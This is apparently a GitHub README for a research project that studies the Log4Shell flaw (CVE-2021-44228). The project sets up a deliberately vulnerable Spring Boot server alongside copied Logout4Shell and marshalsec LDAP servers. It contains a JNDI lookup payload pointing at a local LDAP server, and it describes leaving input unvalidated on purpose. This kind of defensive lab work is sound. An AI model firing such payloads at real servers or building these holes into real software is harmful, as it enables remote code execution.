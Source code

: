 # oregon

Project to look at [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Structure

Naming convention for our stuff will be Oregon cities, we'll keep the names of copied code from cybereason and mbechler.

* oregon Our parent project.
* [ashland](ashland/README.md) Our vulnerable server.
* [logout4shell](logout4shell/README.md) Copied [Logout4Shell](https://github.com/Cybereason/Logout4Shell) vaccination server.
* [marshalsec](marshalsec/README.md) Copied marshalsec ldap server.



## Immunize



    ${jndi:ldap://localhost:1389/a}



## Narrative


Log4j bug.  I suppose the first thing to do, to understand what is going on, is to set up a vulnerable server.

We'll call it ashland, and it will be a spring boot Java server with a vulnerable Log4J version.

We'll make it easy to exploit, by not validating fields, and logging whatever is entered.

Now that we have a vulnerable server, let's set up the vaccination servers.

We'll need a [pre-8.121 JDK](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html), say
8.112, found [here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).

Still not able to [exploit](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot).

We'll need to [update](https://docs.spring.io/spring-boot/docs/current/reference/html/howto.html#howto.logging.log4j) the default logging in Spring.



